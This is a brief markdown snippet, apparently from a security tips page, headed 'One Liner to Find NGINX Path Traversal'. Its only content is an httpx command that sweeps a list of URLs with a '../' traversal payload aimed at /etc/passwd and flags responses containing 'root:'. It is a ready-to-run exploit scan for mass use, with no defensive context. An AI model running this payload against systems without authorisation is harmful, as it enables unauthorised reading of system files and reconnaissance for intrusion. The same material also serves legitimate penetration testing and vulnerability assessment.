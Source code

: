 ## One Liner to Find NGINX Path Traversal

- httpx -l url.txt -path "///////../../../../../../etc/passwd" -status-code -mc 200 -ms 'root:'